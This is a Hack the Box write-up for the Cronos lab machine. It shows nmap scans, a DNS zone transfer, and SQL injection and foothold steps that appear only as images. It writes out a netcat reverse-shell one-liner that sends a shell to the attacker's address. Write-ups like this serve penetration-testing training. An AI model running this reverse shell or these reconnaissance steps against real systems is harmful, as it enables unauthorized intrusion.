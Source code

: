 # Hack the Box - Cronos

```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.13 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.13
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/16%OT=22%CT=1%CU=35700%PV=Y%DS=2%DC=I%G=Y%TM=64630A9
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11
OS:NW7%O6=M53CST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(
OS:R=Y%DF=Y%T=40%W=7210%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.45 seconds
```

```CSS
▶ nmap -sC -sV -p 22,53,80 10.10.10.13 -oN services.nmap

Nmap scan report for 10.10.10.13
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18b973826f26c7788f1b3988d802cee8 (RSA)
|   256 1ae606a6050bbb4192b028bf7fe5963b (ECDSA)
|_  256 1a0ee7ba00cc020104cda3a93f5e2220 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.22 seconds
```

---

## Host Information
```CSS
▶ nslookup 10.10.10.13 10.10.10.13
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/5f8b3c5a-66ec-4668-ac83-682205159d32)
Domain Name: ns1.cronos.htb

---

## Zone Transfer
```
▶ dig axfr @10.10.10.13 cronos.htb
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f37c34e6-4d34-4565-87d3-d57ee7464ad4)
Domain Name: admin.cronos.htb

---

## HTTP 80

URL: `http://cronos.htb`
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/5d2fecb6-cef4-421c-8578-37bfc1d978e4)

URL: `http://admin.cronos.htb`
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/0fc5cbe0-b195-4dfd-aeea-79270f2ad30b)

---

## SQL Injectiion

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c7c14eb8-7b03-4137-ad50-5c3055c16fc6)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/7d97f11f-291d-4d3f-8a4f-1cef755d648c)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/2c8419e7-77d5-457d-a8eb-b80229de3c1d)

---

## Initial Foothold

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4e29b9df-4240-487b-98a4-6a4ce682140b)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c8eb3f14-7b88-4eb2-9f7c-1c1412221f29)

Reverse Bash Shell:
```CSS
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 9001 >/tmp/f
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4ccaedd1-7c22-4e29-8abf-604bffdac4f7)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/8fffd4c2-df59-48a1-89ef-d19e17c3b03f)

### Upgrade Shell to Interactive TTY
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f1518828-bc05-447a-8313-5a248395867b)

---

